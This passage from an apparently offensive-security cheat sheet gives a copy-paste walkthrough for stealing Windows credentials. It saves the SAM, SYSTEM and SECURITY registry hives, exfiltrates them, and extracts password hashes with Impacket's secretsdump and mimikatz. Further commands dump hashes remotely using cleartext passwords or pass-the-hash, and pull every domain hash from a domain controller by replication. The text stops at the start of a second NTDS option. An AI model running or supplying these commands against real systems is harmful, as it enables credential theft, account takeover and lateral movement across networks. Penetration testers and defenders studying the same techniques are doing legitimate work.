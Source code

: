   - evil-winrm / crackmapexec (PTH and remote command execution)

## Typical command walkthrough (detailed, copy-paste friendly)

### A) Local machine (Admin) — Dump SAM offline and parse
On the Windows target (elevated cmd/PowerShell):
```
mkdir C:\temp
reg save HKLM\SAM C:\temp\SAM.save
reg save HKLM\SYSTEM C:\temp\SYSTEM.save
reg save HKLM\SECURITY C:\temp\SECURITY.save
```

Exfiltrate SAM.save/SYSTEM.save/SECURITY.save, then on your attacking host (Kali):
```
secretsdump.py -sam SAM.save -system SYSTEM.save -security SECURITY.save LOCAL
```
- Output lines look like: `user:RID:LMHASH:NTHASH:::`
- If SECURITY is unavailable, you can still parse SAM + SYSTEM.

Alternative with Mimikatz (Windows):
```
mimikatz.exe
privilege::debug
lsadump::sam /system:C:\temp\SYSTEM.save /sam:C:\temp\SAM.save
```

### B) Remote machine (Admin creds) — Dump SAM/LSA with Impacket
With cleartext password:
```
secretsdump.py Administrator:'Passw0rd!'@10.10.10.10
```

With NTLM hash (Pass-the-Hash):
```
secretsdump.py -hashes :<NTHASH> Administrator@10.10.10.10
```

Optional flags:
- `-target-ip <IP>` if DNS doesn’t resolve
- `-outputfile dumped_hashes` to save results
- `-use-vss` to rely on shadow copies for locked hives

### C) Domain Controller — Dump NTDS (Domain hashes)

Option 1: DRSUAPI replication via Impacket (requires DA-like privileges):
```
secretsdump.py -just-dc -just-dc-ntlm 'DOMAIN/Administrator:Passw0rd!'@dc01.domain.local
```
- Add `-dc-ip <DC_IP>` if needed.
- `-just-dc-user 'DOMAIN\someuser'` to target a single account.

Option 2: Offline NTDS via VSS or IFM on the DC
